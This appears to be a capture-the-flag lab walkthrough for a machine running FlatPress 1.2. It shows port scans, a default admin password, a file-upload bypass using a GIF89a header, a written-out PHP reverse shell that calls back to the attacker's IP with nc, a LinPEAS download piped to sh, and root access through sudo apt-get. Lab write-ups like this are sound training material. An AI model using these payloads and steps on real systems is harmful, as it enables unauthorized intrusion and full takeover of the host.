



# press (rough notes)


Initial port enumeration:

```
┌──(kali㉿kali)-[~/offsec/press]
└─$ nmap -v -Pn -p- -T4 press  
...

PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8089/tcp open  unknown
```

Port enumeration with service fingerprinting:

```
┌──(kali㉿kali)-[~/offsec/press]
└─$ nmap -v -Pn -p 22,80,8089 -A press
...

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 c9:c3:da:15:28:3b:f1:f8:9a:36:df:4d:36:6b:a7:44 (RSA)
|   256 26:03:2b:f6:da:90:1d:1b:ec:8d:8f:8d:1e:7e:3d:6b (ECDSA)
|_  256 fb:43:b2:b0:19:2f:d3:f6:bc:aa:60:67:ab:c1:af:37 (ED25519)
80/tcp   open  http    Apache httpd 2.4.56 ((Debian))
|_http-server-header: Apache/2.4.56 (Debian)
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-title: Lugx Gaming Shop HTML5 Template
8089/tcp open  http    Apache httpd 2.4.56 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: FlatPress
|_http-server-header: Apache/2.4.56 (Debian)
|_http-favicon: Unknown favicon MD5: 315957B26C1BD8805590E36985990754
|_http-generator: FlatPress fp-1.2.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Looking at that webserver on port 8089 I see a service and a version I will look up on searchsploit right away:

```
┌──(kali㉿kali)-[~/offsec/press]
└─$ searchsploit flatpress
------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                     |  Path
------------------------------------------------------------------- ---------------------------------
Flatpress - Cross-Site Scripting                                   | php/webapps/10688.txt
Flatpress 0.1010.1 - Multiple Cross-Site Scripting Vulnerabilities | php/webapps/35896.txt
Flatpress 0.804 - Multiple Cross-Site Scripting Vulnerabilities    | php/webapps/32421.html
Flatpress 0.804 < 0.812.1 - Local File Inclusion                   | php/webapps/9801.txt
Flatpress 0.909.1 - Persistent Cross-Site Scripting                | php/webapps/12034.txt
Flatpress 1.0 - Remote Code Execution                              | php/webapps/29515.pl
Flatpress 1.0.3 - Cross-Site Request Forgery / Arbitrary File Uplo | php/webapps/39870.html
Flatpress Add Blog 1.0.3 - Persistent Cross-Site Scripting         | php/webapps/48826.txt
------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Hmmm... nothing for a version as high as what we have...

I search google for "FlatPress 1.2 exploit" and the first hit takes me to a [GitHub issue](https://github.com/flatpressblog/flatpress/issues/152) opened against FlatPress.

The GitHub issue explains in detail how to exploit an arbitrary file upload vulnerability in FlatPress 1.2...

So we will follow the instructions there to try to reproduce it. But I realize I first need to figure out how to authenticate as an administrator...



Tried a handful of bad passwords manually and `admin:password` worked.

From there we follow the instructions in the GitHub issue to add the following line to the top of any PHP file we wish to execute.

```
GIF89a;
```

I choose a reverse shell:

```
┌──(kali㉿kali)-[~/offsec/press]
└─$ cat rshell.php                                           
GIF89a;
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.172 80 >/tmp/f");?>
```

I simply upload `rshell.php`



I set up my local listener to catch the reverse shell:

```
┌──(kali㉿kali)-[~/offsec/press]
└─$ nc -lnvp 80                                                                                         
listening on [any] 80 ...
```

And I trigger the execution by opening the file in the media manager tab of the "administration area" in FlatPress:



and we catch the shell:

```
connect to [192.168.45.172] from (UNKNOWN) [192.168.151.29] 53998
sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

Our usual flag is nowhere to be found... maybe this box only has a rooting proof flag... we'll move on for now.


## Privilege Escalation

I get myself a better shell:

```
$ which python3
/usr/bin/python3
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@debian:/home$
```

And I run LinPEAS:

```
www-data@debian:/home$ which curl
which curl
/usr/bin/curl
www-data@debian:/home$ curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
...
```

LinPEAS raises that I can run apt-get as root without a password:

```
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
Matching Defaults entries for www-data on debian:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on debian:
    (ALL) NOPASSWD: /usr/bin/apt-get
```

That's it. We look up [apt-get in GTFOBins](https://gtfobins.github.io/gtfobins/apt-get/#sudo) and we find how to abuse the package manager to get a shell as root:

```
www-data@debian:/home$ sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
<apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
# whoami
whoami
root
```

Its over for this machine. We find our flag in the root directory:

```
# cd /root
cd /root
# cat proof.txt
cat proof.txt
6d1be77639751d464d3746fc1c746756
```

We get full marks for the flag so indeed it is the only one. We are done!